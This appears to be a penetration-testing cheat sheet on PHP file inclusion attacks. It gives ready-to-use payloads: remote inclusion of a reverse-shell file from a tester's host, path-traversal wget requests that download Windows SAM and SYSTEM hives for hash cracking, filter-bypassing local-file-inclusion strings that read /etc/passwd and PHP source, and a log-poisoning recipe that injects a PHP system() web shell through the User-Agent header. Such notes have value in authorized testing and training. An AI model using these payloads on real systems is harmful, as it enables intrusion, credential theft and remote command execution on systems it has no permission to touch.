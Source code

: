 ```bash
include=echo+WAZZUP%3b
include=/etc/passwd
include=http://10.10.14.8:8000/fake
include=http://10.10.14.8:8000/reverse-shell.php
include=reverse-shell.php
```
When testing for a php reverse shell, you can make a simple php file that says "echo WAZZUP;" and check whether "WAZZUP" is returned in the response.

If that doesn't work, you could have him connect back to us so that we could crack the hash.

Check out the sam and system files:

```bash
wget http://192.168.33.165/..%5C..%5C..%5C..%5C..%5Cwindows..%5Csystem..%5Cconfig..%5Cregback..%5Csystem.old -O SYSTEM
wget http://192.168.33.165/..%5C..%5C..%5C..%5C..%5Cwindows..%5Csystem..%5Cconfig..%5Cregback..%5Csam.old -O SAM
```

```bash
/index.php?language=/etc/passwd #	Basic LFI
/index.php?language=../../../../etc/passwd #	LFI with path traversal
/index.php?language=/../../../etc/passwd #	LFI with name prefix
/index.php?language=./languages/../../../../etc/passwd #	LFI with approved path
/index.php?language=....//....//....//....//etc/passwd #	Bypass basic path traversal filter
/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64 #	Bypass filters with URL encoding
/index.php?language=non_existing_directory/../../../etc/passwd/./././. # [./ REPEATED ~2048 times] 	Bypass appended extension with path truncation (obsolete)
/index.php?language=../../../../etc/passwd%00 #	Bypass appended extension with null byte (obsolete)
/index.php?language=php://filter/read=convert.base64-encode/resource=config # or config.php, Read PHP with base64 filter
```

#### Log Poisoning / Local File Inclusion

- RCE (PHP) through log poisoning (likely /var/log/apache2/access.log). See if you can read the file and see what contents are stored (i.e. User-Agent):

```bash
curl http://example.com/subdir/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

If so, use Burp to change the user agent header:
```bash
<?php echo system($_GET['cmd']); ?>
```

And see if you can execute commands like the following, if so, try a url encoded bash or php reverse shell:

```
GET /subdir/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls
```

..if something else, do something else.
